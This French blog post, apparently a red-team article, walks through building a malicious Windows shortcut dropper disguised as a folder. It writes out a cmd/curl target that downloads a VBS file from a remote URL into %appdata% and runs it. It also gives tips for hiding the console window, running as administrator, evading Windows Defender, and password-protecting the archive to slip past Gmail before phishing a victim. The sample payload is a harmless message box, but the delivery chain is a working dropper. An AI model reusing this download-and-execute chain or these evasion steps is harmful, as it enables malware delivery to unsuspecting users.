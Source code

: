 ```yaml
---
published: true
layout: post
title: "Exploitation des raccourcis Windows pour exécuter des malwares"
description: "Cet article décrit comment exploiter les raccourcis Windows pour exécuter un malware."
lang: fr_FR
category: redteam,malware,raccourci,dropper
---
```

![Exploitation des raccourcis Windows pour exécuter des malwares](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/illustration.jpg)

# Exploitation des raccourcis Windows pour exécuter des malwares

Sur le système d'exploitation Windows, un raccourci est un petit fichier (de 1 ko à 2 ko) qui redirige vers un autre fichier.
Ils permettent d'ouvrir un fichier ou exécutable directement, sans avoir à spécifier son chemin.
Par exemple pour ouvrir le fichier *C:\Program Files\Mozilla Firefox\firefox.exe*, il est beaucoup plus rapide de double-cliquer sur un raccourci **Mozilla Firefox.lnk** (.lnk vient de link en anglais) placé sur le bureau que de s'y rendre via l'Explorateur Windows.
Il est possible de **spécifier un ou des arguments aux raccourcis Windows**. Le raccourci étant un fichier, il est également **possible de le compresser dans un ficher .zip**.

Partant de ce postulat, un attaquant pourrait créer un **raccourci malveillant** dans le but d'exécuter un logiciel malveillant sur l'ordinateur de la victime. L'avantage du raccourci est qu'il est **très léger et peut prendre n'importe quelle extension**.

## Exploitation
Pour commencer, un raccourci va être créé qui exécutera un simple `Hello World` en PowerShell. Pour ce faire, il faut simplement mettre en cible l'exécutable commun à tous les PC : `cmd.exe` :

`C:\Windows\System32\cmd.exe /c "powershell -command "[reflection.assembly]::LoadWithPartialName('System.Windows.Forms')|out-null;[windows.forms.messagebox]::Show('Hello World')""`

L'îcone du raccourci est changé pour le faire ressembler à un dossier, l'extension est également supprimée :

[![Raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/hello_world.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/hello_world.PNG)
*Note : J'ai dans ce scénario d'exploitation créé un raccourci sous forme de dossier mais j'aurais très bien pu également créer un fichier .txt avec l'extension de fichier texte. Même si les extensions de fichiers connus sont affichées, l'extension du raccourci malveillant serait .txt*

L'exécution du raccourci donne alors le résultat suivant :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_hello_world.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_hello_world.PNG)

L'étape suivante est maintenant de personnaliser au maximum l'exécution de l'invité de commande. En effet, les options du raccourci permettent de minimiser la fenêtre au lancement, la rendre transparente, définir une taille de fenêtre...

La configuration de la fenêtre est modifiée :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/taille_fenetre.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/taille_fenetre.PNG)

Les couleurs sont modifiées afin de définir le fond et l'écriture en noir, l'opacité à 30% :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/couleurs.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/couleurs.PNG)

La police d'écriture est réduite au maximum :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/police_ecriture.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/police_ecriture.PNG)

Enfin, la fonctionnalité la plus intéressante est la possibilité d'exécuter le raccourci (l'invité de commande) en tant qu'**administrateur** :
[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/proprietees_avancees.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/proprietees_avancees.PNG)

L'étape suivante est la modification du raccourci pour exécuter un script VBS dont le contenu sera tout simplement un message box pour cet exemple. Je précise que j'exécute un message box car le *dropper* sous forme de raccourci n'a pas pour vocation d'évader l'exécutable malveillant de la détection de l'antivirus mais bien de créer un fichier qui parraît légitime pour exécuter un logiciel malveillant. Le but final est donc l'envoi par mail par exemple pour faire cliquer l'utilisateur.
Voici le contenu du script VBS :

`MsgBox "Je suis un malware écrit en VBS et hébergé sur GitHub"`

L'étape suivante est la création de la charge qui téléchargera le malware VBS ou .exe ou tout autre format. Je précise que j'utilise curl (natif sous Windows 10) et non PowerShell car même dans un raccourci, PowerShell est détecté par Windows Defender.

Autre point important, la cible du raccourci ne doit pas faire plus de 259 caractères. Petite astuce, il est possible d'optimiser le noms des fichiers pour gagner de la place. Il est également possible d'acheter un nom domaine très court et d'héberger le fichier malveillant à la racine.

Voici le contenu de la charge :

`C:\Windows\System32\cmd.exe /c "curl https://raw.githubusercontent.com/CLeBeRFR/a/main/b.vbs -o %appdata%\b.vbs && %appdata%\b.vbs"`

Le raccourci final donc donc :
[![Création charge raccourci malveillant](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/charge_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/charge_malware.PNG)


## Compression du fichier raccourci malveillant
Le fichier doit maintenant être compressé en ligne de commande. Il n'est pas possible de passer par l'interface graphique car le raccourci pointe vers la CMD et 7Zip compressera donc cmd.exe.
[![Compression du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/compression_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/compression_malware.PNG)

## Extraction du malware par la victime
Une fois que le malware est envoyé, lorsque la victime le décompressera, elle obtiendra tout d'abord un vrai dossier :
[![Décompression du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/extraction_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/extraction_malware.PNG)

Une fois entré dans ce dossier, le vrai raccourci malveillant est présent :
[![Ouverture du dossier malveillant](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/ouverture_dossier.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/ouverture_dossier.PNG)

Le malware est alors téléchargé et exécuté :
[![Exécution du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_malware.PNG)

La victime est alors piégé et la suite dépend du malware exécuté...

Pour terminer, j'ajouterais qu'un attaquant chiffrera probablement le nom des fichiers de l'archive et mettra un mot de passe à l'archive car Gmail par exemple détecte quand même la pièce jointe comme malveillante. Cependant, mettre un mot de passe dans des dossiers envoyés par mail peut paraître légitime pour la victime.
L'archive peut également être envoyée via un service comme [FromSmash](https://fromsmash.com/) ou hebergée sur un site.
